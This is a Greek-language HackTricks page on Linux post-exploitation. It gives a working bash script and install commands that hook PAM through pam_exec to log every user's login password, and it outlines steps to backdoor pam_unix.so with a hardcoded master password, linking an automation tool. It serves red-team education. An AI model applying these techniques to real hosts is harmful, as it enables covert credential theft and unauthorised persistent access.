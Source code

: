 # Linux Post-Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Sniffing Logon Passwords with PAM

Ας ρυθμίσουμε ένα module PAM για να καταγράφουμε κάθε κωδικό πρόσβασης που χρησιμοποιεί κάθε χρήστης για να συνδεθεί. Αν δεν ξέρετε τι είναι το PAM, ελέγξτε:

{% content-ref url="pam-pluggable-authentication-modules.md" %}
[pam-pluggable-authentication-modules.md](pam-pluggable-authentication-modules.md)
{% endcontent-ref %}

**Για περισσότερες λεπτομέρειες, ελέγξτε την [αρχική ανάρτηση](https://embracethered.com/blog/posts/2022/post-exploit-pam-ssh-password-grabbing/)**. Αυτό είναι απλώς μια περίληψη:

**Επισκόπηση Τεχνικής:**
Τα Pluggable Authentication Modules (PAM) προσφέρουν ευελιξία στη διαχείριση της αυθεντικοποίησης σε συστήματα βασισμένα σε Unix. Μπορούν να ενισχύσουν την ασφάλεια προσαρμόζοντας τις διαδικασίες σύνδεσης, αλλά ενδέχεται επίσης να θέσουν κινδύνους αν χρησιμοποιηθούν λανθασμένα. Αυτή η περίληψη περιγράφει μια τεχνική για την καταγραφή διαπιστευτηρίων σύνδεσης χρησιμοποιώντας το PAM, μαζί με στρατηγικές μετριασμού.

**Καταγραφή Διαπιστευτηρίων:**
- Ένα script bash με όνομα `toomanysecrets.sh` έχει δημιουργηθεί για να καταγράφει τις προσπάθειες σύνδεσης, καταγράφοντας την ημερομηνία, το όνομα χρήστη (`$PAM_USER`), τον κωδικό πρόσβασης (μέσω stdin) και τη διεύθυνση IP του απομακρυσμένου υπολογιστή (`$PAM_RHOST`) στο `/var/log/toomanysecrets.log`.
- Το script γίνεται εκτελέσιμο και ενσωματώνεται στη ρύθμιση PAM (`common-auth`) χρησιμοποιώντας το module `pam_exec.so` με επιλογές για ήσυχη εκτέλεση και έκθεση του διαπιστευτηρίου αυθεντικοποίησης στο script.
- Η προσέγγιση δείχνει πώς ένας παραβιασμένος Linux host μπορεί να εκμεταλλευτεί για να καταγράψει διαπιστευτήρια διακριτικά.
```bash
#!/bin/sh
echo " $(date) $PAM_USER, $(cat -), From: $PAM_RHOST" >> /var/log/toomanysecrets.log
sudo touch /var/log/toomanysecrets.sh
sudo chmod 770 /var/log/toomanysecrets.sh
sudo nano /etc/pam.d/common-auth
# Add: auth optional pam_exec.so quiet expose_authtok /usr/local/bin/toomanysecrets.sh
sudo chmod 700 /usr/local/bin/toomanysecrets.sh
```
### Backdooring PAM

**Για περισσότερες λεπτομέρειες, ελέγξτε την [αρχική ανάρτηση](https://infosecwriteups.com/creating-a-backdoor-in-pam-in-5-line-of-code-e23e99579cd9)**. Αυτό είναι απλώς μια περίληψη:

Το Pluggable Authentication Module (PAM) είναι ένα σύστημα που χρησιμοποιείται κάτω από το Linux για την αυθεντικοποίηση χρηστών. Λειτουργεί σε τρεις κύριες έννοιες: **όνομα χρήστη**, **κωδικός πρόσβασης** και **υπηρεσία**. Τα αρχεία ρύθμισης παραμέτρων για κάθε υπηρεσία βρίσκονται στον κατάλογο `/etc/pam.d/`, όπου οι κοινές βιβλιοθήκες διαχειρίζονται την αυθεντικοποίηση.

**Στόχος**: Τροποποιήστε το PAM για να επιτρέψετε την αυθεντικοποίηση με έναν συγκεκριμένο κωδικό πρόσβασης, παρακάμπτοντας τον πραγματικό κωδικό πρόσβασης του χρήστη. Αυτό εστιάζει ιδιαίτερα στη κοινή βιβλιοθήκη `pam_unix.so` που χρησιμοποιείται από το αρχείο `common-auth`, το οποίο περιλαμβάνεται σχεδόν σε όλες τις υπηρεσίες για την επαλήθευση κωδικών πρόσβασης.

### Βήματα για την Τροποποίηση του `pam_unix.so`:

1. **Εντοπίστε την Κατεύθυνση Αυθεντικοποίησης** στο αρχείο `common-auth`:
- Η γραμμή που είναι υπεύθυνη για τον έλεγχο του κωδικού πρόσβασης ενός χρήστη καλεί το `pam_unix.so`.
2. **Τροποποιήστε τον Πηγαίο Κώδικα**:
- Προσθέστε μια συνθήκη στο αρχείο πηγαίου κώδικα `pam_unix_auth.c` που παρέχει πρόσβαση εάν χρησιμοποιηθεί ένας προκαθορισμένος κωδικός πρόσβασης, διαφορετικά, προχωρά στη συνήθη διαδικασία αυθεντικοποίησης.
3. **Ανακατασκευάστε και Αντικαταστήστε** τη τροποποιημένη βιβλιοθήκη `pam_unix.so` στον κατάλληλο κατάλογο.
4. **Δοκιμή**:
- Η πρόσβαση παρέχεται σε διάφορες υπηρεσίες (login, ssh, sudo, su, screensaver) με τον προκαθορισμένο κωδικό πρόσβασης, ενώ οι κανονικές διαδικασίες αυθεντικοποίησης παραμένουν ανεπηρέαστες.

{% hint style="info" %}
Μπορείτε να αυτοματοποιήσετε αυτή τη διαδικασία με [https://github.com/zephrax/linux-pam-backdoor](https://github.com/zephrax/linux-pam-backdoor)
{% endhint %}

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
